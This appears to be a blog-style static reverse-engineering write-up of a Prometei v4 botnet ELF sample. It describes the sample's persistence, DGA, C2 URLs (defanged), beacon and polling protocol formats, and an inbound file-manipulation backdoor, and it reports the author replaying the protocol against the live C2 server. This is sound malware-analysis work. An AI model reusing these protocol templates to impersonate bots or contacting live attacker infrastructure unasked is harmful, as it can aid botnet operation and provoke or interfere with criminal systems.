# Dissecting a Prometei v4 Botnet Sample — Static Analysis of a Stripped ELF

I recently got my hands on a real malware sample and decided to perform a static analysis using Ghidra — no dynamic analysis, no sandboxing, no execution. Just the disassembler and my brain. Here's what I found.

## Triage

The first thing you do with any binary is get a quick overview. Nothing fancy — just the basics.

```
$ file infected.elf
ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped

$ sha256sum infected.elf
698f7cd04ae3dae8c370f2a485240f27d3c01d494cea63953a9e580ff47097f9
```

So we're dealing with a **64-bit ELF**, **statically linked** and **stripped**. This is basically the worst-case scenario for reversing — no shared library imports to look at, no function names, nothing. Every function is embedded in the binary, and we have to figure out what each one does by reading the code.

The binary is about 1.29 MB, which is relatively large for a standalone ELF — most of that size comes from glibc being compiled in.

```
$ readelf -l infected.elf | grep STACK
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10

$ readelf -h infected.elf | grep Type
  Type:                              EXEC (Executable file)
```

NX is enabled (stack is RW, not RWX) and the binary is a fixed-address executable (EXEC, not DYN — so no PIE). Being statically linked, there's no dynamic section, so RELRO doesn't apply. The stack canary (`fs:0x28`) is used in some functions like `main`, but not globally.

The `updatev4` command string found later in the analysis suggests this is **Prometei version 4**.

## Strings — The Low-Hanging Fruit

Before diving into the disassembly, I ran `strings` to see what's readable in the binary. And immediately, things got interesting.

### Hardcoded JSON Config


*A full JSON configuration block sitting in the `.data` section — bot ID, encryption key, and parent ID.*

```json
{"config":1,"id":"D9bx8ZTFO1A9Q685","enckey":"PujUAYn2dCT8BXu7CylWnWQ...","ParentId":"SUM84D30Y02V5RS5H"}
```

A bot ID, a base64-encoded key (128 bytes decoded — consistent with an RSA-1024 block, though the exact usage wasn't fully determined), and a parent ID — suggesting a hierarchical botnet structure.

### C2 URLs


*Four C2 channels extracted with `strings`: clearnet IP, a dummy placeholder, Tor .onion, and I2P.*

```
hxxp://177[.]221[.]180[.]26/cgi-bin/p.cgi
hxxp://dummy[.]zero/cgi-bin/prometei.cgi
hxxps://gb7ni5rgeexdcncj[.]onion/cgi-bin/prometei.cgi
hxxp://mkhkjxgchtfgu7uhofxzgoawntfzrkdccymveektqgpxrpjb72oq[.]b32[.]i2p/cgi-bin/prometei.cgi
```

Four C2 channels: **clearnet**, **dummy/placeholder**, **Tor**, and **I2P**. The `prometei.cgi` endpoint name immediately identifies this as a sample of the **Prometei botnet** — a well-known Linux botnet primarily used for cryptomining.

The multi-channel C2 design makes takedown significantly harder: even if law enforcement seizes the clearnet IP, the bot can fall back to Tor or I2P.

### Bot Commands

Scrolling through the strings, I could already see the command set:

```
start_mining / stop_mining
_CMDv2_;%d:
chkport
xwget / chkxwget
tcp_bind / tcp_stop / udp_stop
set_cc1
extip
updatev4
walker / netwalker
```

This gave me a roadmap before even opening Ghidra — I knew I was looking at a bot with cryptomining, remote shell, file download, port scanning, and network propagation capabilities.

## Finding Main — The Entry Point

Opening the binary in Ghidra, the entry point is at `0x401ef0`. This is `_start`, which calls `FUN_004315a0` passing `FUN_00425fbe` as the first argument.


*The entry point follows the standard `_start` → `__libc_start_main(main)` pattern. In the listing view (left), you can see `MOV RDI, FUN_00425fbe` — that's our main function being passed as the first argument. The decompiler (right) shows the same call with the infinite loop wrapper.*

This is the classic CRT startup pattern:

```
_start → __libc_start_main(main, argc, argv, init, fini)
```

The first argument to `__libc_start_main` is `main`. In our case, **main is at `0x425fbe`**.

## Identifying libc Functions in a Stripped Binary

Since the binary is statically linked and stripped, none of the standard library functions have names. Every call shows up as `FUN_00xxxxxx`. The only way to identify them is by their behavior.

Here are some of the functions I identified:

| Address | Identified As | How |
|---------|--------------|-----|
| `thunk_FUN_00465340` | `memset` | Takes (ptr, 0, size), zeroes memory |
| `FUN_00401060` | `memcpy` | Copies N bytes from src to dst |
| `FUN_004011d0` | `strlen` | Walks bytes until null, returns count |
| `FUN_00441980` | `sprintf` | Format string with `%s`, `%d` patterns |
| `FUN_00492840` | `getpid` | Puts 39 in `eax`, calls `syscall` (syscall 39 = getpid) |
| `FUN_004941f0` | `readlink` | Puts 89 in `eax`, calls `syscall` (syscall 89 = readlink) |
| `FUN_00451d20` | `puts` | Takes a single string argument, prints it |

The syscall identification is the most reliable method — `mov eax, 39; syscall` can only be `getpid`. For functions like `memset` and `memcpy`, you recognize the patterns: zeroing a buffer with a loop, copying bytes with a count, etc.

## Main Function — Stack Setup and Self-Discovery

Main starts with a massive stack allocation. It sets up `r11 = rsp - 0x15000` and loops, subtracting `0x1000` at a time from `rsp` until it matches `r11`. This is a **stack probe** — it touches each page to ensure the OS allocates them (prevents skipping over the guard page).

After that, it allocates another `0x980` bytes and saves `argc`/`argv` to local variables. There's a stack canary check (`fs:0x28`), and then it prints `"Starting..."` — confirming we're in the right function.

### Self-Location

The malware needs to know where it's running from. It does this with:

```c
pid = getpid();                    // syscall 39
sprintf(buf, "/proc/%d/exe", pid);
readlink(buf, dest, size);         // syscall 89
```


*In the listing (left): the `LEA` loads the format string `/proc/%d/exe`, followed by calls to `sprintf` and `getpid`. The decompiler (right) shows the same flow more clearly — `getpid()`, then `sprintf` building the `/proc/<pid>/exe` path, then the series of `memset` calls initializing buffers.*

This resolves the path of the running binary. Then it walks backward through the path looking for `/` to extract the directory.

### Self-Installation

Based on what it finds, the malware copies itself to one of:
- `/usr/sbin/uplugplay`
- `/etc/uplugplay`

The name `uplugplay` is designed to look like a legitimate system service (think USB plug-and-play). The logic checks multiple locations and prints `"saved"`, `"already"`, or `"failed"` depending on the result.

## Argument Parsing and Persistence

The malware checks `argc` to determine its operating mode:

- **argc > 1**: Installation mode — sets up persistence, prints version info
- **argc > 2**: Extended setup — additional persistence mechanisms
- **argc > 4**: Checks for `chkxwget` — verifies wget availability and downloads components

### Persistence Mechanisms

It installs itself through **two independent persistence methods**:

1. **Cron job** — reads the existing crontab (`crontab -l`), adds itself
2. **Systemd service** — creates a `.service` unit file and runs `systemctl enable/start/daemon-reload`

It also opens and modifies several system files:
- `/etc/hosts` — modifies host resolution
- `/etc/CommId` — stores a persistent bot identifier (falls back to `/home/<user>/Documents/CommId`)
- `/etc/resolv.conf` — overwrites DNS resolvers with `8.8.8.8`, `1.1.1.1`, `114.114.114.114`

### Process Masquerading

After installation, the malware spawns and manages several processes with innocent-sounding names:
- `updatecheckerd` — sounds like an update checker daemon
- `pdefenderd` — sounds like a process defender
- `nvsync` — sounds like NVIDIA sync
- `netwalker` — the propagation module

It kills any previous instance (`pkill updatecheckerd`) before spawning a new one to avoid duplicates.

## The DGA — Domain Generation Algorithm

This is where it gets interesting. The function at `0x41aedb` implements a **Domain Generation Algorithm** using the seed `"xinchao"` (Vietnamese for "hello").

```c
FUN_0041aedb("xinchao", DAT_00539900, output_buffer);
```

Here's what it does step by step:

1. Copies `"xinchao"` into a buffer as the base seed
2. Gets the current time and derives a numeric value (likely month or day)
3. Formats the value as a string and **obfuscates it** by adding `0x31` (`'1'`) to each character
4. Appends two more characters derived from the time value and a global counter (`DAT_00539900`)
5. Concatenates everything: `"xinchao" + generated_suffix` → e.g., `"xinchaokf7ra"`
6. **Resolves this domain via DNS** — the response contains encoded data (the record type wasn't confirmed — could be TXT, A, or another type)
7. Extracts up to **8 lowercase letters** from the DNS response
8. Appends `.com` → this is the **fallback C2 domain**


*The `.rodata` section around the DGA: the C2 URL format string `http://%s/cgi-bin/p.cgi?r=0&auth=...` at `0x502aa0`, the `"xinchao"` seed at `0x502af5`, and the sprintf format strings used by the DGA. On the right, the decompiler shows the DGA function building the domain and the `0x6d6f632e` constant — that's `.com` in little-endian.*

### TLD Rotation

The caller function at `0x41b33a` orchestrates the full DGA fallback sequence:

1. Generates a domain → forces TLD to `.com` → contacts C2
2. Same domain → swaps TLD to `.net` → contacts C2
3. Regenerates with a **different seed** (`DAT_00502afd`) → forces `.org` → contacts C2
4. Increments the global counter for the next cycle

```c
// Simplified logic of 0x41b33a
generate_dga("xinchao", counter, domain);
domain[len-3..len] = "com";    // 99, 0x6f, 0x6d
contact_c2(domain);

domain[len-3..len] = "net";    // 0x6e, 0x65, 0x74
contact_c2(domain);

generate_dga(other_seed, counter, domain);
domain[len-3..len] = "org";    // 0x6f, 0x72, 0x67
contact_c2(domain);

counter++;
```

The indirection works like this: the domain built from `"xinchao"` + suffix is resolved via DNS *inside* `FUN_0041aedb`. The 8 lowercase letters extracted from that DNS response become the actual fallback domain name. Then `FUN_0041b33a` takes that extracted domain and rotates its TLD (`.com` → `.net` → `.org`), calling the C2 contact function each time. So the DGA domain itself is never contacted as a C2 — it's a lookup that yields the real fallback address. This lets the operators rotate C2 servers by updating a single DNS record, without pushing a new binary.


*The DGA orchestrator at `0x41b33a` in the listing view. You can see the byte replacements for each TLD: `0x6d` (m), `0x6e` (n), `0x65` (e), `0x74` (t) — swapping `.com` to `.net`, then calling `FUN_0041a8a7` (the C2 contact function) each time.*


*The same function in the decompiler. The three calls to `FUN_0041a8a7` are clearly visible, along with the counter increment (`DAT_00539900 = DAT_00539900 + 1`) and the wraparound check at the bottom.*

## C2 Communication Protocol

### Request Format

The C2 communication function at `0x41a8a7` builds the request URL using `sprintf`:

```
http://%s/cgi-bin/p.cgi?r=0&auth=hash&i=%s&enckey=%s
```

Where:
- `%s` (host) = `177[.]221[.]180[.]26` or a DGA-generated domain
- `auth=hash` is **literal text** — not a `%s` placeholder. It's a fixed string, possibly telling the server which authentication method to use
- `%s` (i) = `D9bx8ZTFO1A9Q685` (bot ID from the JSON config)
- `%s` (enckey) = the authentication key from the config

Despite the name `enckey`, it's sent as a URL parameter for C2 authentication. Before sending, the bot runs a custom URL-safe converter (`0x41a14b`) that replaces `+` → `-` and `=` → `_`, leaving `/` intact. Both the JSON enckey and the hardcoded fallback decode to exactly 128 bytes (RSA-1024 block size), so while their primary observable role is authentication, they could also serve a cryptographic purpose elsewhere in the binary.

The bot acts as a **polling client**: it periodically sends HTTP GET requests to the C2, asking for commands. The server responds with a command string, the bot executes it, and sends the result back.

The HTTP client is custom-built (no libcurl) — it constructs a minimal raw request from the template `GET %s HTTP/1.0\r\nHost: %s\r\n\r\n`: HTTP/1.0, a single `Host` header, and nothing else (no `User-Agent`, no `Connection`). Network I/O uses the `sendto` syscall (syscall 44) directly.

### Response Format

The bot sends results back to the C2 by appending parameters to the URL:

| Format | Usage |
|--------|-------|
| `?&i=%s&answ=OK` | Simple success acknowledgment |
| `?&i=%s&answ=err` | Error response |
| `?&i=%s&answ=%s` | Response with data payload |
| `?&i=%s&enckey=%s&answ=%s` | Response with authentication + data |
| `?&i=%s&r=%d&answ=%s` | Response with request ID + data |

All communication is over HTTP — no TLS wrapping on the clearnet channel. The Tor and I2P channels provide transport-level encryption through their respective overlay networks.

### A Second Request: The Check-in Beacon

The polling request above isn't the only thing the bot sends. There's a second, completely different request template at `0x502ee0`, and this one reports identity rather than asking for commands:

```
GET / HTTP/1.1
info: <botID>,<enckey>\<version>,<OS>,<hostname>,<homepath>,<username>,<number>,
Connection: keep-alive
Host: <host>:<port>
```

A few things set it apart from the polling request: it's **HTTP/1.1** (not 1.0), it carries a `Connection: keep-alive` header, the `Host` includes an explicit **port** (`%s:%d`), and instead of a query string it packs everything into a custom `info:` header. Tracing the `sprintf` that builds it (`FUN_00441980` at `0x420bd0`) shows the fields: the bot ID (`0x53fcc0`), the enckey (`0xbf4380`), and two giveaway constants — the **version string `v4.44L_Unix64`** and the OS tag `Linux`. The remaining fields are collected at runtime: the function calls `getenv("HOME")` multiple times, parses host info by splitting on `/` and `:` delimiters, and runs `atoi` on the numeric field — yielding the **hostname**, **home path**, **username**, and a **numeric counter**. It's sent with `sendto` (`FUN_0042fd90`), and the surrounding log strings are `Connected to %s` and `404 - Server %s offline`.


*The beacon template at `0x502ee0` and the version string `v4.44L_Unix64` at `0x502f38`, both cross-referenced from `FUN_00420760`. This is the exact Prometei build: v4, `4.44L_Unix64`.*


*The request is assembled by `sprintf` (`FUN_00441980`): `LEA R9, [0xbf4380]` loads the enckey, `LEA RDX, [0x53fcc0]` the bot ID, `LEA RSI, [0x502ee0]` the template. It's then sent with `sendto` (`FUN_0042fd90`).*

Because it ships the bot's identity (ID + enckey), its **version**, and system details (hostname, home path, username), this is a **registration / check-in beacon** — the bot announcing itself to the C2 ("here I am, this is my build, this is the host I'm on"). Live validation confirmed it: sending this beacon to the C2 server returns `1` (acknowledged), after which the server begins issuing commands on the polling channel.

### Protocol Validation — Talking to the Live C2

To confirm the static analysis findings, I replayed the protocol against the live C2 server. The full request cycle works exactly as the binary describes it.

**Step 1 — Registration beacon.** I sent the `info:` header with the bot's identity and system details. The server responded `200 OK` with body `1` — registration acknowledged.


*Sending the check-in beacon with the `info:` header. The C2 responds `200 OK` with body `1` — the bot is now registered.*

**Step 2 — First poll.** Immediately after registration, the first polling request to `/cgi-bin/p.cgi?r=0&auth=hash&i=<botID>&enckey=<key>` returns `sysinfo` — the C2 is requesting system information from the newly registered bot.


*The first poll after registration. The server responds with `sysinfo` — an immediate command, not `no`. Content-Length: 7, `charset=windows-1251` (the C2 backend is PHP on Windows).*

**Step 3 — Command response.** The bot sends back the system info via the `&answ=` parameter: `Linux+victim-pc+5.15.0+x86_64+2cores+4096MB`. The server accepts it (200 OK, empty body).


*Responding to the `sysinfo` command with system details in the `answ` parameter. The server accepts it — 200 OK, no body, connection closed.*

**Step 4 — Subsequent polls.** Every poll after the sysinfo exchange returns `no` — no pending commands. The bot keeps polling until the operator queues something new.


*A follow-up poll. The C2 responds `no` (Content-Length: 2) — nothing in the command queue. The bot will keep polling at its configured interval.*

This confirms the full C2 lifecycle: **register → receive command → respond → poll for more**. The server responds immediately (no long-polling or websockets) and queues commands one at a time. A few details from the server side: it runs **Apache/2.4.41 on Windows** with **PHP 7.3.10**, uses `charset=windows-1251` (Cyrillic), and the earlier `500 Internal Server Error` on unauthenticated requests was simply the backend rejecting an unregistered bot — not a misconfiguration.


*The C2 function at `0x41a8a7`. In the listing (left), the `LEA RSI` loads the format string `http://%s/cgi-bin/p.cgi?r=0&auth=...`, followed by the `sprintf` call. The decompiler (right) shows the full flow: URL construction, the HTTP request via `FUN_00414678`, and the fallback to the shorter `http://%s/cgi-bin/p.cgi` URL if the first attempt fails.*

## The Bot Also Runs Its Own HTTP Server — And It's a Backdoor

This is the part I almost wrote off as a hypothesis. The binary is full of `HTTP/1.0 200 OK` and `HTTP/1.0 403 Forbidden` response templates with `Content-Length` and `Content-disposition: attachment` headers. At first I assumed those could just be client-side parsing artifacts — but digging into the `tcp_bind` command and following the thread it spawns proved the bot is a genuine **inbound HTTP server**, not just a client.

Here's how I confirmed it. The command dispatcher matches `tcp_bind` at `0x42b2ba` and, if the server isn't already running, spins up a thread with `pthread_create(..., FUN_0041bd51, ...)`. But the interesting bit is that **main spawns that exact same thread at startup**, right after setting up the listening port — so the server is up from the moment the bot runs, in parallel with the C2 polling loop. The two are completely independent directions of traffic:

- **Outbound**: the bot polls the C2 asking for commands (the `enckey` requests from earlier)
- **Inbound**: other machines connect to *this* bot's HTTP server


*In `main`, after `atoi(argv[2])` writes the port into `DAT_00537468` (default `0x59` = 89), it immediately calls `pthread_create` (`FUN_0042cb70`) with `FUN_0041bd51` as the thread routine — the HTTP server. This happens unconditionally at startup, not only on a `tcp_bind` command.*

### The Listening Socket

Inside the server thread, the socket setup is textbook. It fills a `sockaddr_in`: family `AF_INET` (2), the port via `htons(DAT_00537468)`, and the address via `inet_addr("0.0.0.0")` — meaning it binds to **every interface**, not just loopback. That's the detail that matters: the server is reachable from any machine that can route to the host, which is exactly what you'd want for spreading payloads across a compromised network.


*The `sockaddr_in` setup inside `FUN_0041bd51`: `sin_family = 2`, `htons(DAT_00537468)` for the port (default 89), `inet_addr("0.0.0.0")` for the address, then `bind` (`FUN_00497260`). The decompiler on the right shows the surrounding strings being built on the stack character by character — the same anti-strings trick used for the keys.*

The port isn't hardcoded into the `bind` call — it's read from the global `DAT_00537468`, which `main` sets from `argv[2]` (`atoi`) when the bot is launched with enough arguments. The compiled-in default is **89**. So when the malware re-launches itself for persistence (via cron or systemd), it most likely passes its own port on the command line.

### The Endpoints

The `.rodata` section lays out the server's routing in plain sight. The main endpoint is `/?c=getinfo`, and the response templates cover both the success and denied paths:

```
0.0.0.0
/?c=getinfo
GET /
HTTP/1.0 200 OK\nContent-Length: %d\n\n
HTTP/1.0 403 Forbidden\nContent-Length: %d\n\n%s
```


*The server's strings in `.rodata`, all cross-referenced from the listener thread `FUN_0041bd51`: the `0.0.0.0` bind address, the `/?c=getinfo` endpoint, the `GET /` request parsing, and the `200 OK` / `403 Forbidden` response templates.*

The `403 Forbidden` path tells you the server does some kind of access control before responding — it's not an open file server. There's also a `404 Not Found` template, so the routing is a proper little HTTP server, not a one-trick responder.

### It's Not Just an Info Endpoint — It's a Backdoor

Here's where it stopped being "a payload server" in my head and became something more serious. I followed the command-dispatch chain inside the listener thread (`FUN_0041bd51`) and it doesn't just answer `getinfo`. It matches a whole set of commands coming **inbound over the network**, and some of them manipulate the filesystem:

| Inbound command | Handler (in `FUN_0041bd51`) | What it does |
|-----------------|----------------------------|--------------|
| `fdel` | `0x41eb2a` | **Delete a file** |
| `fcopy` | `0x41ec1f` | **Copy a file** |
| `wget` | `0x41ed9c` | **Download a file** (drop arbitrary content) |
| `touch` | `0x41f917` | Create / modify a file |
| `sysinfo` | `0x41f489` | Dump system info |
| `getinfo` | `0x41f769` | Dump bot info |
| `ver` / `ver_ext` | `0x41fa0b` / `0x41f058` | Report version |
| `quit2` | `0x41f877` | Terminate |


*Inside the listener, the incoming request is compared against `DAT_00502dd4` (`"wget"`) using the custom string-compare `FUN_00412fba`. The same pattern repeats for `fdel`, `fcopy`, `touch`, and the rest — a full inbound command dispatcher.*


*The command strings in `.rodata`. The XREF column is the proof: `fdel` (`0x502dc9`), `fcopy` (`0x502dce`) and `wget` (`0x502dd4`) are all referenced from `FUN_0041bd51` — the `:89` listener — not only from the C2 dispatcher.*


*The `200 OK`, `403 Forbidden`, and `404 Not Found` response templates, each cross-referenced from `FUN_0041bd51`. The `403` path is the access-control gate that runs before a command is honored.*

